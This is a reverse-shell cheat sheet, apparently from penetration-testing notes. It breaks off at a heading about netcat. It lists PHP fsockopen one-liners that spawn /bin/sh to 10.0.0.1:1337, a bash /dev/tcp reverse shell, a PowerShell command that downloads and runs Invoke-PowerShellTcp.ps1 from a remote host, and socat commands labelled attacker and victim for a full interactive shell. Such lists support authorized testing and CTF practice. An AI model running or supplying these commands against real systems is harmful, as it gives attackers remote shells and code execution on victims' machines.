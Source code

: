 ### PHP
```bash
php -r '$sock=fsockopen("10.0.0.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",1337);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",1337);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",1337);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",1337);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",1337);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
php -r '$sock=fsockopen("10.0.0.1",1337);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### Bash TCP

```bash
bash -i >& /dev/tcp/10.0.0.1/1337 0>&1
```

### Powershell

```bash
powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.0.0.1/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.0.0.1 -Port 1337
```

## Powershell version

```powershell
64-bit: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
32-bit: C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe 
```

To check 32-bit/64-bit:
```powershell
[Environment]::Is64BitProcess
```

## Upgrade to Full TTY

Some commands/exploits may only work when you have full TTY.

### Socat

Attacker:
```bash
socat file:`tty`,raw,echo=0 TCP-L:1337
```

Victim:
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:1337
```

### From nc
